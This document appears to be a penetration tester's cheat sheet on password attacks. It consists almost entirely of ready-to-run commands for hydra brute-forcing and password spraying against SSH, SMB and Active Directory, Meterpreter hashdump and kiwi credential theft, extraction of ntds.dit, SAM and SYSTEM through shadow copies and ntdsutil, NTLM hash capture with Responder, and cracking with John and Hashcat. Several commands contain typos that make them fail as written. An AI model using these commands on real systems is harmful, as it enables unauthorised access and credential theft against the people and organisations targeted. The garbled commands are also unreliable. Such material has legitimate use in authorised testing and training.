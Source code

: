 # Password Attacks
## Password Guessing
### HYDRA
```bash
hydra -l bgreen -P /opt/passwords/rockyou.txt 10.10.10.10 ssh
```
#### Single User, Multiple Passwords, Targeting SSH on port 2222
```bash
hydra -l root -P passwords.txt ssh://1.2.3.4:2222
```
#### Multiple Users, Single Passwords, Targeting SMB on default port
```bash
hydra -L users.txt -p password1 dc.target.local smb2
```
#### Single User, Single Password, Targeting Multiple Tagets Across the Network
```bash
hydra -l bberner -p P@ssword1! -M windows-hosts.txt smb2
```
#### Previously Compromised Users Accross the network
```bash
hydra -C creds.txt -M windows-hosts.txt smb2
```
#### Guessing Domain user passwords using hte domain controller
```bash
hydra -C creds.txt dc01.hitbox.com smb2 -m workgroup:{hitbox}
```

## AD Password Spraying an AD Environment
```bash
GetADUsers.py hitbox.com/bgreen:Password1 -dc-ip 10.10.10.55 -all | tee /tmp/ADUsers.txt
```
```bash
hydra -L /tmp/ADUsers.txt -p Password1 -m workgroup.{hitbox} 10.10.10.55 smb2
```

## Credential Stealing
### Meterpreter
#### Smart Hashdump
```bash
run post/windows/gather/smart_hashdump
```
#### Hashdump
```bash
run post/windows/gather/hashdump
```
#### Kiwi
```meterpreter
ps -A x64 -s
```
```meterpreter
migrate PID_of_SpoolSV
```
```meterpreter
load kiwi
```
```meterpreter
creds all
```
### ntds.dit
#### VSSOwn
```cmd
cscript vssown.vbs /status
cscript vssown.vbs /start
cscript vssown.vbs /create /c
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[x]\windows\ntds\ntds.dit ntdsbackup.dit
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[x]\windows\system32\config\SYSTEM systembackup.bak
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[x]\windows\system32\config\SAM sambackup.bak
cscript vssown.cbs /stop
```
#### NTDSUtil
```cmd
ntdsutil
activate instance ntds
ifm
create full C:\mybackup
quit
quit
```
```cmd
ntdsutil "ac in ntds" "ifm" "cr gu C:\mybackup" q q
```

## John The Ripper
### Cracking Windows LM Hashes
```bash
john ~/lans/web01.hashes --show
```
### Cracking Windows NT Hashes
```bash
john --format=nt ~/labs01.hashes
```
### Cracking Windows NT Hashes w/ LoopBack
```bash
john --format=nt --loopback ~/labs01.hashes
```
### Cracking WIndows NT hashes w/ Wordlist
```bash
john --format=nt --worldlist=/opt/passwords/rockyou.txt ~/labs/web01.hashes
```
### Cracking Linux Hashes
```bash
john ~/labs/web10.shadow --wordlist=/opt/passwords/rockyou.txt
```

## Hashcat
### Cracking Windows NT Hashes
```bash
hashcat -w 3 -a 0 -m 1000 ~/labs/web01.hashes /opt/passwords/rockyou.txt
```
### Cracking Windows NT Hashes with rules
```bash
hashcat -w 3 -a 0 -, 1000 ~/labs/web01.hashes /opt/passwords/rockyou.txt -e /usr/local/share/doc/hashcat/rules/best64.rule
```

### Cracking Windows NT Hashes with Masks
```bash
hashcat -w3 -a 6 -m 1000 ~/labs.web01.hashes /opt/passwords/rockyou.txt ?d?s
```
### View Cracked Passwords
```bash
hashat -m 1000 --username --show --outfile-format 2 ~/labs/web01.hashes
```
### Crack Linux Password SHA512Crypt
```bash
hashcat -w 3 -a 0 -m 1800 ~/labs/web10.shadow /opt/passwords/rockyou.txt 0r /user/local/share/doc/hashcat/rules/best64.rule
```
### Crack NTLM Hashes
#### Set Up Responder
```bash
responder.py -I eth0
```
#### pcredz
```bash
python3 ./pcredz -f /tmpwinauth.pcap
```
#### Hashcat on NTLMv2 Hashes
```bash
hashcat -w 3 -a 0 -m 5600 /opt/pcredz/logs/NTLMv2.txt /opt/passwords/rockyou.txt 
```